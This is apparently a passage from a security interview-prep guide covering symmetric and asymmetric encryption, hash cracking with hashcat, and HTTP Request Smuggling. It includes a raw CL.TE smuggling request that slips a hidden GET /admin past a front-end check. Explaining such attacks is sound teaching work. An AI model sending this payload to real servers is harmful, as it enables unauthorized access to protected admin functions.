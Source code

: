 There are two types of encryption : **symmetric** and **asymmetric**.

Symmetric encryption uses one key for both encryption & decryption, whereas asymmetric uses one key to encrypt the data and the second key to decrypt.


#### Hashing
Hashing is a one-way process the data is hashed and should not be reversable (that's why it's called one-way). (Un)fortunately, lot of hashes have been cracked, such as MD4, MD5, SHA-1,...

A good tool to crack hashes, is `hashcat`, especially their  examples list is really great : https://hashcat.net/wiki/doku.php?id=example_hashes

Hashes can also have salt, which adds random value to it and makes it harder to crack, but the most important part is to use secure hashes, which would be `PBKDF2`, for example.


## 36. Name some ways an attacker might exploit an HTTP Request Smuggling vulnerability.

####  Access Control
<section id="access_control"></section>
HRS can lead to bypassing front-end security mechanism by including a "secret" request, that only the backend can see (thus bypasses the front-end check), leading the backend to think everything's fine.



Let's see an example, we make a request and we want to gain access to `/admin` : 

```HTTP
POST / HTTP/1.1 
Host: freeoscp.net 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 139 
Transfer-Encoding: chunked 


0 


GET /admin/ HTTP/1.1 
Host: freeoscp.net
Content-Type: application/x-www-form-urlencoded 
Content-Length: 10 

x=


```
In this example, the frontend uses `Content-Length`, while the backend uses `Transfer-Encoding. 
Firstly, we write `0`, to tell the backend, that here the request ends and new begins. This will confuse is and everything after it is a normal request. We then include the request to `/admin`, which is our goal. Notice the `x=`, which is used so the next request's headers are not conflicting with ours. The headers will be treated as a request body, so no errors. 
